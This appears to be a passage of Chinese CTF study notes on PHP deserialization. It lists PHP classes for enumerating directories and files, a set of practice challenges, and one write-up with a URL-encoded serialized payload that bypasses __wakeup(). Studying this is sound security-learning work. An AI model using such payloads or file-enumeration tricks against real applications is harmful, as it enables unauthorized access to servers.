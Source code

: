 读取目录、文件

- [DirectoryIterator](https://www.php.net/manual/zh/class.directoryiterator.php) - 列出当前目录下的文件信息
- [Filesystemlterator](https://www.php.net/manual/zh/class.filesystemiterator.php) - 以绝路路径的形式列出的文件信息
- [Globlterator](https://www.php.net/manual/zh/class.globiterator.php) - 遍历一个文件目录，可以通过模式匹配来寻找文件路径

- [SplFileInfo](https://www.php.net/manual/en/class.splfileinfo.php) - SplFileInfo 类为单个文件的信息提供了高级的面向对象接口

## 练习题

- 基础
  - 极客大挑战 2019 php
  - 2020-网鼎杯朱雀组-phpweb
- POP
  - ISCC_2022_POP2022
  - 强网杯_2021_赌徒
  - 网鼎杯_2020_青龙组 AreUSerialz
  - ISCC_2022_findme
  - GYCTF2020 Easyphp
- 字符逃逸
  - 强网杯\_2020_Web 辅助

### 极客大挑战 2019 php

1. 目录扫描，`www.zip`
2. 绕过`__wakeup()`

```php
class Name {
 private $username = 'admin';
 private $password = 100;
}

$o = new Name;
// 由于属性为私有，采用URL编码
echo urlencode(serialize($o));
```

```php
O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D
```

### buuctf - 2020-网鼎杯朱雀组-phpweb

### ISCC_2022_POP2022
